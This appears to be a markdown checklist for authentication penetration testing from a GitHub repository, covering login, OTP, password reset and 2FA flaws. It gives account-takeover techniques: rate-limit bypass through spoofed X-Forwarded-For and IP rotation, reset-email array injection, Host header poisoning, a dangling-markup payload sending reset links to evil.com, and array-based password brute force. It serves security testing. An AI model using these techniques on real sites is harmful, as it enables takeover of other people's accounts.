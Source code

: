 # Authentication Testing

## Login Page:
  - Try

## Email confirmation bypass:

  - Try response manupulate to cofirm email
  - while confirm email try this: intecept request to burp and change your mail to another person mail if you cloud get success. 
  
## OTP Relate Testing:

  - If you can manupulate response code to 200 and 302.
  - If you brute force login OTP
    - If WAF try Ip rote extension
    - Read some article and reports about rate limit bypass
  - While you confirming OTP try to change you email to victim email: if you cloud login as another user.
  - If target reseting password via OTP confirmation than you can add another emil with your mail: while request for reseting password:
    ```json
    {
     "email": [
       "victim@email.com",
       "you@email.com"
      ]
    }
    # If you got OTP in your mail try reset password: then possible victim account takeover 
    ```

## Password Reset functionality:
  - Try to add Host header in reset password request.
  - While reseting password intercept request to burp and see if you cloud add ```<a href>``` tag and see in email if there anything changes. 

## Authentication:
	
  - Bypass Rate Limit with X-Forwarded-For: to pwn authentication
  - Host header injeciton in forgot password page
	- Test Remember me functionality
  - Test password reset and/or recovery
  - 2FA Bypass
    - Access the content directly (site.com/profile)
    - Login using Oauth gmail or FB to bypass 2FA
    - Reset Password and login inoto the account to bypass 2FA 
    - Use old toke or change the response
  - Goto the reset password page and add two emails while sending the reset password link
		[You can recive two password reset link]
  - Web Cache deception [site.com/profile/min.js]
  - PHP protection can be bypassed using [] such as password=1234 ----> password[]= (CSRF token too)
  - While resetting password change the host header to your server (VPS) = secret link to your VPS
  - Bypass rate limit protection: You can use IP-Rotate burp extension or you can change system IP per request.
	
  - Password reset poisoning via dangling markup
	```Host: victim.com:'<a href="//evil.com/?  ```

  - Add X-Forwarded-For: 127.0.0.1 or 1-1000 to bypass the rate limit protection.

  - Login into the valid account and then into valid one, repeat this process to fool the sever to bypass the rate limit protection (observe that your IP is blocked        if your submit 3 incorrect logins in a row. However, you can reset the counter by logging in to your own account before the limit is reached)

  - replace the single string value of the password with an array of string containing all of the candidate passwords, for Example:
	
```json
	"username": "test",
	"password": [
		"1234",
		"password",
		"qwerty"
		....
	]
```

  - If you enter the wrong code twice, you will be logged out again bypass it using macros (You need to use burp's session handlling features to log back in
    automatically before sending each request.)
	
